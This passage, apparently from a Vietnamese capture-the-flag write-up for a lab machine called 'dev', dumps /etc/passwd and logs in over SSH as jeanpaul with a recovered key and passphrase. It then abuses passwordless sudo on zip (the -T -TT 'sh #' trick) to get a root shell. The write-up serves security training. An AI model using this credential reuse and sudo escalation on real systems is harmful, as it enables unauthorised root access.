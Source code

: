 www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin

backup:x:34:34:backup:/var/backups:/usr/sbin/nologin

list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin

irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin

gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin

nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin

_apt:x:100:65534::/nonexistent:/usr/sbin/nologin

systemd-timesync:x:101:102:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin

systemd-network:x:102:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin

systemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin

messagebus:x:104:110::/nonexistent:/usr/sbin/nologin

sshd:x:105:65534::/run/sshd:/usr/sbin/nologin

jeanpaul:x:1000:1000:jeanpaul,,,:/home/jeanpaul:/bin/bash

systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin

mysql:x:106:113:MySQL Server,,,:/nonexistent:/bin/false

_rpc:x:107:65534::/run/rpcbind:/usr/sbin/nologin

statd:x:108:65534::/var/lib/nfs:/usr/sbin/nologin

Ở đây có tài khoản jeanpaul có điểm tương đồng với jp trong file kiếm được, thử ssh lại

ssh -i id_rsa jeanpaul@192.168.1.9

Enter passphrase for key 'id_rsa':

thử passphrase I_love_java trong file conf

jeanpaul@dev:~$ sudo -l

Matching Defaults entries for jeanpaul on dev:

env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User jeanpaul may run the following commands on dev:

(root) NOPASSWD: /usr/bin/zip

ở đây chúng ta có zip, chúng ta vào trang  phần sudo để leo thang

jeanpaul@dev:~$ TF=$(mktemp -u)

jeanpaul@dev:~$ sudo zip $TF /etc/hosts -T -TT 'sh #'

adding: etc/hosts (deflated 31%)

# whoami
